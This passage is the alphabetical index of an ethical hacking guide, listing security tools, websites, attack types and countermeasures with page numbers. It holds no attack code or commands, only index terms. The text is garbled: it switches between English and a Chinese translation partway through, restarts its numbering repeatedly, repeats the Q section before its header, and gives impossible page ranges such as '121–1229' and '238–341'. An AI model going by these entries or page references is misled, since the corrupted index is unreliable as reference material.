12. `Cb Protection` (`website`), `[113`](`#c08.xhtml#Page_113`), `[152`](`#c09.xhtml#Page_152`)

13. `C|EH (Certified Ethical Hacker)`, `[11`](`#c01.xhtml#Page_11`)

14. `Center for Internet Security Benchmarks (website)`, `[121`](`#c08.xhtml#Page_121`)–`1229`, `[369`](`#a01.xhtml#Page_369`)

15. `certifications`, `[11`](`#c01.xhtml#Page_11`), `[358`](`#a01.xhtml#Page_358`)

16. `Certified Ethical Hacker (C|EH)`, `[11`](`#c01.xhtml#Page_11`)

17. `Certified Information Security Manager (website)`, `[358`](`#a01.xhtml#Page_358`)

18. `Certified Information Systems Security Professional (website)`, `[358`](`#a01.xhtml#Page_358`)

19. `Certified Systems Security Professional (CISSP)`, `[11`](`#c01.xhtml#Page_11`)

20. `Certified Wireless Security Professional (website)`, `[358`](`#a01.xhtml#Page_358`)

21. `Cheat Sheet (website)`, `[3`](`#c00.xhtml#Page_3`)

22. `CheckShortURL (website)`, `[368`](`#a01.xhtml#Page_368`)

23. `CheckSum Tool (website)`, `[47`](`#c03.xhtml#Page_47`)

24. `Cheops-ng (website)`, `[328`](`#c18.xhtml#Page_328`)

25. `chkconfig`, `[238`](`#c13.xhtml#Page_238`)

26. `*A Chronology of Data Breaches* (Privacy Rights Clearinghouse)`, `[342`](`#c20.xhtml#Page_342`)

27. `CIP (Critical Infrastructure Protection)`, `[12`](`#c01.xhtml#Page_12`)

28. `Cisco (website)`, `[308`](`#c16.xhtml#Page_308`)

29. `Cisco LEAP protocol`, `[171`](`#c10.xhtml#Page_171`)

30. `CISSP (Certified Systems Security Professional)`, `[11`](`#c01.xhtml#Page_11`)

31. `civil liberties`, `[33`](`#c02.xhtml#Page_33`)

32. `clients`, `[348`](`#c21.xhtml#Page_348`)–`349`

33. `cloud service providers`, `[333`](`#c19.xhtml#Page_333`)–`334`

34. `CloudFlare (website)`, `[155`](`#c09.xhtml#Page_155`), `[300`](`#c15.xhtml#Page_300`), `[359`](`#a01.xhtml#Page_359`)

35. `Cobb, Chey (author)` 

     1. `*Network Security For Dummies*`, `[122`](`#c08.xhtml#Page_122`)

36. `code injection`, `[287`](`#c15.xhtml#Page_287`)–`289`

37. `Cofense (website)`, `[78`](`#c06.xhtml#Page_78`)

38. `commands, disabling`, `[240`](`#c13.xhtml#Page_240`)

39. `Common Vulnerabilities and Exposures (website)`, `[56`](`#c04.xhtml#Page_56`), `[318`](`#c17.xhtml#Page_318`), `[371`](`#a01.xhtml#Page_371`)

40. `communication and messaging systems` 

     1. `about`, `[253`](`#c14.xhtml#Page_253`)

     2. `e-mail attacks`, `[254`](`#c14.xhtml#Page_254`)–`270`

     3. `messaging system vulnerabilities`, `[253`](`#c14.xhtml#Page_253`)–`254`

     4. `tools and resources`, `[362`](`#a01.xhtml#Page_362`)

     5. `Voice over IP (VoIP)`, `[270`](`#c14.xhtml#Page_270`)–`275`, `[370`](`#a01.xhtml#Page_370`)–`371`

41. `CommView (TamoSoft)`, `[115`](`#c08.xhtml#Page_115`), `[141`](`#c09.xhtml#Page_141`), `[364`](`#a01.xhtml#Page_364`), `[370`](`#a01.xhtml#Page_370`), `[373`](`#a01.xhtml#Page_373`)

42. `CommView for WiFi (TamoSoft)`, `[22`](`#c01.xhtml#Page_22`)

43. `Completely Automated Public Turing test to tell Computers and Humans Apart (CAPTCHA)`, `[257`](`#c14.xhtml#Page_257`)–`258`, `[297`](`#c15.xhtml#Page_297`)

44. `compliance`, `[12`](`#c01.xhtml#Page_12`), `[348`](`#c21.xhtml#Page_348`)

45. `CompTIA Security (website)`, `[358`](`#a01.xhtml#Page_358`)

46. `Computer Fraud and Abuse Act (website)`, `[361`](`#a01.xhtml#Page_361`)

47. `computers, physical security vulnerabilities`, `[90`](`#c07.xhtml#Page_90`)–`93`

48. `configuration, of null sessions`, `[213`](`#c12.xhtml#Page_213`)–`214`

49. `Connect scan`, `[133`](`#c09.xhtml#Page_133`)

50. `connection attacks`, `[256`](`#c14.xhtml#Page_256`)–`258`

51. `COPS (website)`, `[244`](`#c13.xhtml#Page_244`)

52. `copyrighted materials`, `[33`](`#c02.xhtml#Page_33`)

53. `Core Network Insight (website)`, `[357`](`#a01.xhtml#Page_357`)

54. `cost, of being hacked`, `[342`](`#c20.xhtml#Page_342`)–`343`

55. `countermeasures` 

     1. `account enumeration`, `[262`](`#c14.xhtml#Page_262`)–`263`

     2. `ARP poisoning`, `[151`](`#c09.xhtml#Page_151`)

     3. `attacks on unneeded services`, `[236`](`#c13.xhtml#Page_236`)–`238`

     4. `banner attacks`, `[260`](`#c14.xhtml#Page_260`)

     5. `banner-grabbing attacks`, `[137`](`#c09.xhtml#Page_137`)–`138`

     6. `buffer-overflow attacks`, `[245`](`#c13.xhtml#Page_245`)

     7. `connection attacks`, `[256`](`#c14.xhtml#Page_256`)–`258`

     8. `default configuration settings vulnerabilities`, `[186`](`#c10.xhtml#Page_186`)

     9. `default script attacks`, `[293`](`#c15.xhtml#Page_293`)

     10. `directory traversals`, `[283`](`#c15.xhtml#Page_283`)

     11. `DoS attacks`, `[154`](`#c09.xhtml#Page_154`)–`155`

     12. `e-mail attachment attacks`, `[255`](`#c14.xhtml#Page_255`)–`256`

     13. `encrypted traffic attacks`, `[170`](`#c10.xhtml#Page_170`)–`172`

     14. `file permission hacks`, `[243`](`#c13.xhtml#Page_243`)–`244`

     15. `firewall rulebase vulnerabilities`, `[140`](`#c09.xhtml#Page_140`)

     16. `general password-cracking`, `[117`](`#c08.xhtml#Page_117`)–`121`

     17. `header disclosures`, `[267`](`#c14.xhtml#Page_267`)

     18. `input attacks`, `[290`](`#c15.xhtml#Page_290`)–`291`

     19. `MAC address spoofing attacks`, `[151`](`#c09.xhtml#Page_151`)

     20. `MAC spoofing`, `[183`](`#c10.xhtml#Page_183`)

     21. `missing patch vulnerability exploits`, `[224`](`#c12.xhtml#Page_224`)–`225`

     22. `NetBIOS attacks`, `[210`](`#c12.xhtml#Page_210`)

     23. `network protocol vulnerabilities`, `[146`](`#c09.xhtml#Page_146`)

     24. `NFS attacks`, `[242`](`#c13.xhtml#Page_242`)

     25. `null session hacks`, `[214`](`#c12.xhtml#Page_214`)–`215`

     26. `password reset programs`, `[193`](`#c11.xhtml#Page_193`)

     27. `physical security attacks`, `[245`](`#c13.xhtml#Page_245`)–`246`

     28. `ping sweeping`, `[135`](`#c09.xhtml#Page_135`)

     29. `port scanning`, `[135`](`#c09.xhtml#Page_135`)

     30. `.rhosts and hosts.equiv file attacks`, `[240`](`#c13.xhtml#Page_240`)–`241`

     31. `rogue wireless devices`, `[179`](`#c10.xhtml#Page_179`)


32. `SMTP 中继攻击`, 266

33. `SNMP 攻击`, 136–137

34. `社会工程学`, 80–82

35. `系统扫描`, 205–207, 233–234

36. `不安全的登录系统`, 297

37. `VoIP 漏洞`, 275

38. `易受攻击的无线工作站`, 185

39. `无线网络攻击`, 183–184, 185

40. `WPS PIN 漏洞`, 174–175

56. `CPT (IACRB 认证渗透测试员)`, 11

57. `网站被破解`, 366

58. `黑客`, `定义`, 8

59. `破解密码`

     1. `关于`, 98–99

     2. `在数据库上`, 305–306

     3. `使用高科技工具`, 102–110

     4. `键盘记录`, 112–113

     5. `在笔记本电脑上`, 188–193

     6. `网络分析仪`, 114–115

     7. `传统方式`, 99–101

     8. `受密码保护的文件`, 110–112

     9. `手机和平板电脑`, 193–198

     10. `统计`, 110

     11. `弱 BIOS 密码`, 116

     12. `弱密码存储`, 113–114

     13. `弱密码停滞`, 116–117

60. `系统崩溃`, 17–18

61. `爬虫`, 280–281

62. `可信度，建立`, 345

63. `罪犯黑客`, 29

64. `关键基础设施保护 (CIP)`, 12

65. `跨站脚本 (XSS)`, 289–290

66. `CWE/SANS 顶级 25 危险编程错误 (网站)`, 371

67. `Cylance (网站)`, 152

1. `守护进程`, 229. *参见* `Linux`

2. `数据泄漏防护 (DLP) 系统`, 332

3. `数据库`

    1. `关于`, 303

    2. `选择安全测试工具`, 304

    3. `破解密码`, 305–306

    4. `在网络中查找`, 304–305

    5. `降低安全风险`, 307–308

    6. `工具和资源`, 358

    7. `漏洞`, 306–307

4. `Davis, Peter T. (作者)`

    1. *`Hacking Wireless Networks For Dummies`*, 169

    2. *`Wireless Networks For Dummies`*, 184

5. `DDoS (分布式 DoS) 攻击`, 152–153

6. `Debian Linux 安全警报 (网站)`, 367

7. `Debian 包管理系统 (dpkg)`, 248

8. `欺骗`

    1. `通过技术`, 73–74

    2. `通过语言和行为`, 72–73

9. `Deep Freeze Enterprise (网站)`, 113, 369

10. `默认配置设置`, `与漏洞相关`, 186

11. `默认脚本攻击`, 291–293

12. `默认共享权限 (Windows)`, 215–216

13. `默认供应商密码 (网站)`, 366

14. `交付物`, 39

15. `Dell KACE 系统管理设备 (网站)`, 249

16. `去军事化区 (DMZ) 分段`, 309

17. `拒绝服务 (DoS) 攻击`, 15, 127, 152–155, 359

18. `DHA (目录收集攻击)`, 260

19. `字典攻击`, `用于破解密码`, 105

20. `Digital Hotspotter (Canary Wireless)`, 161, 373

21. `数字版权法 (DMCA)`, 12, 361

22. `方向性无线天线`, 161

23. `目录收集攻击 (DHA)`, 260

24. `目录穿越`, 279–282

25. `禁用`

     1. `命令`, 240

     2. `文件和打印共享 for Microsoft Networks`, 214

     3. `NetBIOS`, 210, 214

     4. `不需要的服务`, 236–238

26. `分布式 DoS (DDoS) 攻击`, 152–153

27. `分布式密码恢复 (Elcomsoft)`, 102, 306, 358, 366

28. `分发更新`, 248–249

29. `DLP (数据泄漏防护) 系统`, 332

30. `DMCA (数字版权法)`, 12, 361

31. `DMZ (去军事化区) 分段`, 309

32. `DNS 工具 (网站)`, 359

33. `DNSstuff 中继检查器`, 362

34. `DNSstuff.com (网站)`, 359

35. `美元符号 ($)`, 210

36. `DoS (拒绝服务) 攻击`, 15, 127, 152–155, 359

37. `DOSarrest (网站)`, 155, 359

38. `dpkg (Debian 包管理系统)`, 248

39. `Draper, John (黑客)`, 28

40. `屋顶瓦片`, 86

41. `dsniff (网站)`, 147, 267, 364

42. `DumpSec (网站)`, 120, 213, 373

43. `桶子潜水`, 14, 76–77

E

1. `EC-Council (网站)`, 11

2. `Ecora Patch Manager (网站)`, 326, 367

3. `Effective File Search (网站)`, 369

4. `伦理黑客的有效性`, 347–350

5. `EICAR`, 268

6. `EICAR 防病毒 (网站)`, 362

7. `Elcomsoft`

    1. `高级压缩包密码恢复`, 111

    2. `分布式密码恢复`, 102, 306, 358, 366

    3. `取证磁盘解密`, 192, 366

    4. `iOS 取证工具包`, 194–197

    5. `手机破解`, 197, 363

    6. `主动密码审计`, 103

    7. `主动系统密码恢复`, 101, 103

    8. `系统恢复`, 22, 102, 188, 363, 366

    9. `网站`, 188

    10. `无线安全审计 (EWSA)`, 161, 169, 373

8. `电子邮件攻击`

    1. `关于`, 254

    2. `横幅`, 258–260

    3. `降低安全风险的最佳实践`, 269–270

    4. `电子邮件炸弹`, 255–258

9. `电子邮件炸弹`, 255–258

10. `电子邮件防火墙`, 258

11. `电子邮件头披露`, 266–267


12. 电子邮件、网络钓鱼、68、77–79

13. 员工、68、73

14. 启用系统日志记录、333

15. 加密、167–170、269

16. 列举工具、55

17. 错误和遗漏保险、40

18. 必要 NetTools (TamoSoft)、128、135、364

19. 以太网连接、拔除、27

20. 伦理黑客、定义、8

21. 伦理黑客。*另见特定主题* 

     1.  关于、1

     2.  自动化补丁、331–332

     3.  与恶意黑客相比、10–12

     4.  外包、334–335

     5.  过程、18–24

     6.  原因、12–13

     7.  规则、16–18

     8.  安全风险、14–16

     9.  术语、7–9

22. ettercap (网站)、141

23. 评估伦理黑客的结果、23

24. “恶意双胞胎”、27

25. 执行伦理黑客计划、22–23

26. 利用 

     1.  可能性和影响、319–320

     2.  缺失补丁、217–225

     3.  社交工程攻击中的关系、72–74

     4.  工具和资源、359

27. `EXPN` 命令、261–263

28. 外部黑客、8

### F

1.  Facebook (网站)、62

2.  失败登录计数器、120–121

3.  Failure Modes and Effects Analysis (FMEA)、41

4.  伪造员工、68

5.  伪造支持人员、68

6.  伪造供应商、68

7.  恐惧、不确定性和疑虑 (FUD)、342

8.  光纤通道、308

9.  文件和打印共享 (Microsoft Networks)、214

10. 文件权限、在 Linux 中检查、242–244

11.  FileLocator Pro、310、311、369

12.  FileLocator Pro (网站)、113

13.  The File Extension Source (网站)、359

14.  FileVault、93

15.  FIN Stealth scan、133

16.  Finnigan, Pete (安全专家)、305

17.  Firefox Add-ons、289

18.  Firefox Web Developer (网站)、284、371

19.  Fireking safes (网站)、92

20.  Firemon Risk Analyzer (网站)、139

21.  防火墙 

     1.  电子邮件、258

     2.  iptables、233

     3.  防止 NetBIOS 攻击、210

     4.  部署、300

     5.  测试规则、138–140

     6.  使用、156–157

22. 固件补丁、186

23.  先进先出缓冲区、143

24.  灵活性、346

25.  FMEA (Failure Modes and Effects Analysis)、41

26.  侦察 

     1.  关于、51

     2.  收集公开信息、51–52、61–64

     3.  映射网络、64–66

27.  Forensic Disk Decryptor (Elcomsoft)、192

28.  制定伦理黑客计划、18–20

29.  Fortinet (网站)、300、308、313、364

30.  Fortres 101 (网站)、113、369

31.  Foundstone's SASS Hacme Tools (网站)、299、372

32.  fping (网站)、53

33.  FTP (ftpd)、230、235

34.  FUD (fear, uncertainty, and doubt)、342

35.  全盘加密、192

### G

1.  收集公开信息、51–52、61–64

2.  GDPR (Global Data Protection Regulation) (网站)、361

3.  通用研究工具、359–360

4.  通用安全扫描、297

5.  `GET` 请求、292

6.  Getif、128、135–136、364

7.  GFI EventsManager (网站)、333、362

8.  GFI LanGuard、57、204、206、225–226、249、326、361、364、367、373

9.  GHDB (Google Hacking Database)、282、372

10.  GIAC (SANS Global Information Assurance Certification)、11

11.  Glassdoor (网站)、62

12.  GLBA (Gramm-Leach-Bliley Act)、12、361

13.  Global Data Protection Regulation (GDPR) (网站)、361

14.  GNU MAC Changer (网站)、150、182

15.  目标、建立、37–40

16.  好人 (白帽) 黑客、9、29

17.  Google、62、281–282、359

18.  Google Groups、282

19.  Google Hack Honeypot (网站)、283、372

20.  Google Hacking Database (GHDB)、282、372

21.  *Google Hacking for Penetration Testers* (Long)、282

22.  管理、348

23.  政府资源、64、359

24.  抓取横幅、137–138

25.  Gramm-Leach-Bliley Act (GLBA)、12、361

26.  gray hat 黑客、9、29

27.  Greenidea, Inc. (网站)、337

28.  Greenidea Visible Statement (网站)、370

29.  保证、352

### H

1.  黑客。*另见特定主题* 

    1.  关于、8–9

    2.  攻击方式、33–35

    3.  定义、8

    4.  为雇佣、30

    5.  维护匿名性、35–36

    6.  公众对黑客的看法、25–28

    7.  原因、30–33

    8.  思维像坏人、27

    9.  谁是?、28–30

2.  Hackin9 (网站)、35、360

3.  黑客。*见* 伦理黑客

4.  *Hacking Wireless Networks For Dummies* (Beaver and Davis)、169

5.  默认。*另见特定主题* 

    1.  文件权限、243

    2.  NFS (Network File System)、241–242

    3.  物理安全、245

    4.  使用 hosts.equiv 文件、239

    5.  使用 .rhosts 文件、239–240


6. hacktivists, `[30`](#c02.xhtml#Page_30)

7. “hard, crunchy outside; soft, chewy inside,” `[68`](#c06.xhtml#Page_68)

8. hardening systems, `[326`](#c18.xhtml#Page_326)–327

9. hashes, `[103`](#c08.xhtml#Page_103)–104, `[306`](#c16.xhtml#Page_306)

10. Health Information Technology for Economic and Clinical Health (HITECH) Act, `[12`](#c01.xhtml#Page_12)

11. Health Insurance Portability and Accountability Act (HIPAA), `[10`](#c01.xhtml#Page_10), `[12`](#c01.xhtml#Page_12), `[361`](#a01.xhtml#Page_361)

12. Herold, Rebecca (author) 

     1. *Managing an Information Security and Privacy Awareness and Training Program*, `[370`](#a01.xhtml#Page_370)

13. hidden field manipulation, `[286`](#c15.xhtml#Page_286)–287

14. hidden shares, `[210`](#c12.xhtml#Page_210)

15. high-tech tools, cracking password with, `[102`](#c08.xhtml#Page_102)–110

16. HIPAA (Health Insurance Portability and Accountability Act), `[10`](#c01.xhtml#Page_10), `[12`](#c01.xhtml#Page_12)


14. 工具和资源，361

15. 漏洞，228

16. Linux Administrator's Security Guide (网站)，370

17. Linux Security Auditing Tool (LSAT)，361

18. live (可启动) CDs，160–161

19. live toolkits，362

20. llCommView (TamoSoft)，161

21. 位置，选择，46

22. 日志分析，362

23. 记录安全事件，333

24. Long, Johnny (作者)

     1. *Google Hacking for Penetration Testers*，282

25. Long, Johnny (安全专家)，282

26. low-hanging fruit，32

27. LSAT (Linux Security Auditing Tool)，361

28. `lsof` 命令，236

29. LUCY (网站)，78–79，368

### M

1.  MaaS360 (网站)，194

2.  MAC 地址供应商查找 (网站)，364

3.  MAC 伪造，150–151，179–183

4.  mailsnarf (网站)，362

5.  假设，46–47

6.  恶意用户

     1.  关于，9

     2.  与伦理黑客相比，10–12

     3.  定义，8

     4.  监控，332–334

7.  malware，268，357

8.  ManageEngine (网站)，249，367

9.  *Managing an Information Security and Privacy Awareness and Training Program* (Herold)，370

10.  手动分析，280

11.  手动评估，56–57

12.  映射

     1.  网络，64–66

     2.  null sessions，211–212

13.  `maxsize` 变量，284

14.  MBSA (Microsoft Baseline Security Analyzer)，203，226，326，373

15.  McAfee Host Intrusion Prevention for Server (网站)，233，372

16.  MDM (移动设备管理)，193

17.  消息传递。 *See* 通信和消息传递系统

18.  Metasploit

     1.  关于，22，279

     2.  利用未打补丁的漏洞，220–225

     3.  网站，58，204，220，244，268，359

19.  方法论

     1.  评估漏洞，56–57

     2.  足迹，51–52

     3.  开放端口，53

     4.  入侵系统，58

     5.  扫描系统，52–53

     6.  测试，49–51

20.  Microsoft (网站)，93

21.  Microsoft Baseline Security Analyzer (MBSA)，203，226，326，373

22.  Microsoft BitLocker Administration and Monitoring (网站)，363

23.  Microsoft Security Compliance Manager (网站)，308，370

24.  Microsoft Security Tech Center (网站)，367

25.  Microsoft SQL Server Management Studio (网站)，306

26.  Microsoft SQL Server Management Studio Express (网站)，358

27.  Microsoft tools，203–205

28.  Microsoft Visio，42

29.  最小化

     1.  数据库安全风险，307–308

     2.  存储系统安全风险，312–313

     3.  Web 安全风险，298–301

30.  缺失补丁，利用，217–225

31.  错误，351–355

32.  Mitnick, Kevin (黑客)，28

33.  移动设备管理 (MDM)，193

34.  移动设备

     1.  关于，187

     2.  应用，194

     3.  破解笔记本电脑密码，188–193

     4.  破解手机和平板，193–198

     5.  工具和资源，363

     6.  漏洞，187–188

35.  monitor mode，143

36.  监控恶意使用，332–334

37.  多平台更新管理工具，249

### N

1.  NAS (NFS 基于的网络附加存储) 系统，308

2.  NAT (网络地址转换)，139

3.  National Institute of Standards and Technology (NIST)，56，121，275，366，371

4.  National Vulnerability Database (网站)，98，234，318，371

5.  nbtstat (NetBIOS over TCP/IP 统计)，203

6.  NERC (North American Electric Reliability Corporation) CIP 要求，12

7.  Nessus (网站)，22，229，364

8.  `net use` 命令，212

9.  `net view` 命令，212–213

10.  NetBIOS (网络基本输入/输出系统)，203，208–210

11.  NetBIOS 审计工具 (网站)，366

12.  NetBIOS over TCP/IP 统计 (nbstat)，203

13.  Netcat (网站)，138–139，364

14.  Netcraft 搜索实用程序 (网站)，55

15.  Netcraft's *What's that site running?* (网站)，360

16.  netfilter/iptables (网站)，364

17.  NetResident (TamoSoft)，144，267，364

18.  NetScanTools Pro，22，53，65，128，133–134，135，165，204，229，263，364

19.  Netsparker，21，22，273，278，372

20.  `netstat` 命令，236

21.  NetStumbler，164，374

22.  Network Address Translation (NAT)，139

23.  network analyzer

     1.  关于，140–145

     2.  针对漏洞的对策，146

     3.  利用该工具破解密码，114–115

     4.  程序，141–146

24.  Network Basic Input/Output System (NetBIOS)，203，208–210

25.  network components, physical security vulnerabilities，90–93

26.  network infrastructure

     1.  关于，125–126

     2.  攻击，15

     3.  选择工具，127–128

     4.  安装通用网络防护，156–157

     5.  在网络上进行伦理黑客攻击，129–156


6. 易受攻击的脆弱性，126–127

27. *网络安全入门* (Cobb)，122

28. 网络安全工具包 (网站)，362

29. 网络用户 (网站)，373

30. 网络

     1. 分析数据，140–146

     2. 查找数据库，304–305

     3. 映射，64–66

     4. 工具和资源，363–365

31. Nexpose，22，57，128，153，204，225–226，229，273，304，309，358，361，364，373

32. 基于 NFS 的网络附加存储 (NAS) 系统，308

33. NIST (国家标准与技术研究院)，56，121，275，366，371

34. Nmap，53，128，131–132，132–133，206，229，230，235，364

35. NMapWin (网站)，55，128，364

36. 非技术性攻击，14

37. 北美电力可靠性公司 (NERC) CIP 要求，12

38. Nping (网站)，165，364

39. NTAccess (网站)，188，366

40. 零扫描，133

41. 零会话，检测，211–212

### O

1. 缺乏安全性，安全通过，299

2. Offensive Security Certified Professional (OSCP)，11

3. Offensive Security 的漏洞数据库 (网站)，224，359

4. 办公室，物理安全，85–93

5. 官方互联网协议标准 (网站)，126

6. 双向无线天线，161

7. OmniPeek (Savvius)，22，115，128，141，161，275，364，371，374

8. Omnipeek (网站)，53

9. 开放集团的 FAIR 风险税 onomy (网站)，368

10. 开放端口，53–56

11. 开源安全测试方法手册 (网站)，58，368

12. 开源 Tripwire (网站)，241

13. 开放 Web 应用安全项目 (网站)，57，278

14. 操作指南，用于最小化电子邮件安全威胁，270

15. 操作系统，15，121–122

16. ophcrack，21，102，107，191，363，366

17. ophcrack LiveCD (网站)，90

18. Oracle，305

19. 组织密码脆弱性，97

20. OSCP (Offensive Security Certified Professional)，11

21. Outlook Web Access (OWA)，270

22. 外包

     1. 伦理黑客，334–335

     2. 安全监控，333–334

     3. 测试，355

23. OWA (Outlook Web Access)，270

24. OWASP (网站)，368

25. OWASP WebGoat 项目 (网站)，298

26. OWASP Zed Attack Proxy 项目 (网站)，372

27. Oxygen Forensic Suite (网站)，363

### P

1. Palo Alto Networks (网站)，152，300

2. Pandora (网站)，366

3. Paros Proxy (网站)，372

4. 合作伙伴，348–349

5. 口令短语，118

6. Passware (网站)，189

7. Passware Kit Forensic (网站)，363，366

8. Password Safe (网站)，118，366

9. 密码破解软件，102–105

10. 受保护的文件，破解，110–112

11. 密码。*另见* cracking passwords 

     1. 关于，95–96

     2. 破解的对策，117–121

     3. 保护操作系统，121–122

     4. 脆弱性，96–98

12. 补丁

     1. 关于，324–325

     2. 自动化，325–326，331–332

     3. Linux，248–249

     4. 管理，325，367

13. 专利和商标局 (网站)，64

14. 支付卡行业数据安全标准 (PCI DSS)，10，12，361

15. PCI DSS 渗透测试指南 (网站)，58

16. PDQ Deploy (网站)，326

17. 渗透测试，1，58

18. 渗透测试执行标准 (网站)，58

19. 端到端保护，258

20. 权限，共享，215–217

21. Peter Davis & Associates 培训服务 (网站)，370

22. 钓鱼邮件，68，77–79

23. Phone Breaker (Elcomsoft)，197，363

24. 手机

     1. 破解，193–198

     2. 用于社交工程攻击，77

25. PHP (Hypertext Preprocessor)，291

26. Phrack (网站)，35

27. 物理安全

     1. 关于，83

     2. 基本脆弱性，84–85

     3. 使用 Linux 检查，245–246

     4. 网络分析仪，146

     5. 你的办公室中的脆弱性，85–93，183–184

28. Ping of Death，153

29. Ping (ICMP echo) 回复，54

30. ping 扫描，131–132，135

31. PIPEDA (加拿大个人信息保护和电子文档法)，12

32. pkgtool (Slackware 包工具)，248

33. 计划开发

     1. 关于，40

     2. 攻击树分析，42

     3. 选择要黑客的系统，40–41

     4. 创建测试标准，43–47

     5. 设定目标，37–40

     6. 保险，40

     7. 选择安全评估工具，47–48

34. 关闭安全漏洞

     1. 关于，323


2. 评估安全基础设施，328–329

3. 加固系统，326–327

4. 补丁，324–326

5. 将报告转化为行动，323–324

35. 点对点隧道协议 (PPTP)，170–171

36. 政策，安全，11

37. POP3 命令，137

38. Port 80 软件的 ServerMask (网站)，299, 372

40. PortSentry (网站)，233, 364

41. `POST` 请求，292

42. Postfix (网站)，270

43. 电源线，拔掉，27

44. PPTP (点对点隧道协议)，170–171

45. 预共享密钥 (PSKs)，169

46. 事先批准，351

47. 将漏洞优先级排序，319–320

48. 隐私，尊重，17

49. 隐私政策，66

50. Privacy Rights Clearinghouse 网站的数据泄露时间线 (website)，342, 369

51. Proactive Password Auditor (Elcomsoft)，21, 103, 366

52. Proactive System Password Recovery (Elcomsoft)，101, 103

53. 伦理黑客的过程

     1. 关于，18

     2. 评估结果，23

     3. 执行计划，22–23

     4. 制定你的计划，18–20

     5. 实施建议，23, 24

     6. 选择工具，20–21

54. 专业责任保险，40

55. Project RainbowCrack (网站)，107

56. PromiscDetect (网站)，115, 146, 365

57. 静默模式 (promiscuous mode)，115, 140

58. 协议，54

59. PROTOS (网站)，273, 371

60. PSKs (预共享密钥)，169

61. `Psychology For Dummies` (Cash)，73

62. 公共信息，收集，51–52, 61–64

63. 公众对黑客的看法，25–28

64. PVS-Studio 分析器 (网站)，300, 369

65. pwdump3

     1. 使用 pwdump3 破解 Windows 密码，107–109

     2. 网站，103, 367

66. Pwnie Express (网站)，90, 359

1. qmail (网站)，270

2. Qualys (网站)，229

3. Qualys SSL Labs (网站)，372

4. QualysGuard

    1. 漏洞扫描器，365

    2. 网站，57, 358, 361, 373

### Q

1. qmail (网站)，270

2. Qualys (网站)，229

3. Qualys SSL Labs (网站)，372

4. QualysGuard

    1. 漏洞扫描器，365

    2. 网站，57, 358, 361, 373

### R

1. RADIUS 服务器，169

2. 彩虹攻击，用于破解密码，107

3. 彩虹表，103, 367

4. RainbowCrack (网站)，103, 367

5. 将漏洞排名，319–320

6. Rapid7 (网站)，57, 290

7. RARPs (反向 ARP)，179

8. 实时传输协议 (RTP)，272

9. 伦理黑客的原因，347–350

10. 黑客的原因，30–33

11. Reaver，173–174, 374

12. Reaver Pro (网站)，173

13. 录音业协会 (RIAA)，33

14. 录制音频流，273–275

15. Red Hat 企业 Linux，240

16. Red Hat 包管理器 (RPM)，248

17. 红队，39

18. 重新组织的黑客，18, 336

19. 非洲区域互联网注册管理机构 (AFRINIC)，66, 359

20. 北美、加勒比部分和下撒哈拉非洲区域的非洲互联网注册管理机构 (ARIN)，66, 359

21. 注册表，104

22. 监管问题，12

23. 相关运营商，282

24. 关系，在社交工程攻击中被利用，72–74

25. 中继，SMTP，263–266

26. 记忆图标，3

27. 报告结果

     1. 关于，317

     2. 编译，317–319

     3. 创建报告，321–322

     4. 将漏洞优先级排序，319–320

28. 请求评论 (RFCs) 列表，126

29. 住宅电话，77

30. 尊重隐私，17

31. 回应漏洞，46

32. 限制对系统的匿名连接，215

33. 反向 ARP (RARP)，179

34. 反向社会工程，73

35. RFCs (请求评论) 列表，126

36. .rhosts 文件，238–341

37. RIAA (录音业协会)，33

38. RIPE 网络协调中心 (网站)，66, 360

39. 风险分类 (Open Group)，368

40. 风险。*另见* 漏洞

     1. 数据库安全，307–308

     2. 最小化存储系统安全，312–313

     3. 最小化 Web 安全，298–301

     4. 安全，14–16

41. 野生无线设备，175–179

42. RPM (Red Hat 包管理器)，248

43. RTP (实时传输协议)，272

44. 伦理黑客的规则，16–18

### S

1. SAM (安全帐户管理) 数据库，104

2. SANs (iSCSI 存储区域网络)，308

3. SANS 关键安全控制，57

4. SANS 全球信息保障认证 (GIAC)，11, 358

5. SANS 学院，121, 371

6. Savvius' OmniPeek (网站)，115, 128, 141, 161, 275, 364, 371, 374

7. 扫描仪，128

8. 扫描

     1. 端口，129–135

     2. SNMP (简单网络管理协议)，135–137

     3. 系统，52–53

9. Schwartau, Winn (安全分析师)，337

10. 抓取，78


12. script kiddies, 26, 28, 34

13. SEC (Securities and Exchange Commission), 64, 75, 360

14. *(IN)SECURE Magazine*, 35, 360

15. Secure Shell (SSH), 171

16. Secure Sockets Layer/Transport Layer Security (SSL/TLS), 171

17. securing 

     1.  operating systems, 121–122

     2.  .rhosts and hosts.equiv files, 238–341

18. Securities and Exchange Commission (SEC), 64, 75, 360

19. security. *See also* physical security 

     1.  education and learning resources, 368

     2.  evaluations, 348

     3.  methods and models, 368

     4.  monitoring outsourcing, 333–334

     5.  by obscurity, 299

     6.  Windows 10, 219

20. Security Accounts Manager (SAM) database, 104

21. security assessment tools, 47–48

22. Security Awareness, Inc. (website), 337, 370

23. security events, logging, 333

24. security infrastructure, assessing, 328–329

25. *Security On Wheels* (blog), 368

26. security policy, 11

27. security processes, managing 

     1.  automating ethical-hacking, 331–332

     2.  maintaining security efforts, 337

     3.  monitoring malicious use, 332–334

     4.  outsourcing ethical hacking, 334–335

     5.  security-aware mindset, 336–337

28. security researchers, 29

29. Security Tools Distribution (website), 362

30. security-aware mindset, 336–337

31. The Security Awareness Company (website), 337

32. Secur/Tree (Amenza Technologies Limited), 42, 368

33. selecting locations, 46

34. semidirectional wireless antenna, 161

35. Sensitive Data Manager, 311

36. Server Message Block (SMB), 208

37. ServerDefender (website), 300, 370

38. service set identifier (SSID), 163

39. Session Initiation Protocol (SIP), 272

40. SetGID, 243

41. SetUID, 243

42. 7-Zip (website), 10, 363

43. SFTP, 256

44. Share Finder tool, 209–210

45. share permissions, checking, 215–217

46. shares, 209–210

47. Shavlik Patch (website), 367

48. shoulder surfing, 95, 100

49. showing value, 346

50. SIEM Data Collection Log Management (website), 362

51. Simple Mail Transfer Protocol (SMTP) 

     1.  account enumeration, 260–263

     2.  capturing traffic, 267

     3.  e-mail header disclosures, 266–267

     4.  malware, 268

     5.  relay, 263–266

52. Simple Network Management Protocol (SNMP), 135–137

53. SIP (Session Initiation Protocol), 272

54. sipsak (website), 273

55. SiteDigger (website), 372

56. Slackware Linux Security Advisories (website), 367

57. Slackware Package Tool (pkgtool), 248

58. SMAC (KLC Consulting), 150–151, 182

59. SMAC MAC address changer (website), 365

60. SmartDraw (website), 42, 363

61. Smartwhois (website), 65

62. SMB (Server Message Block), 208

63. SMTP (Simple Mail Transfer Protocol) 

     1.  account enumeration, 260–263

     2.  capturing traffic, 267

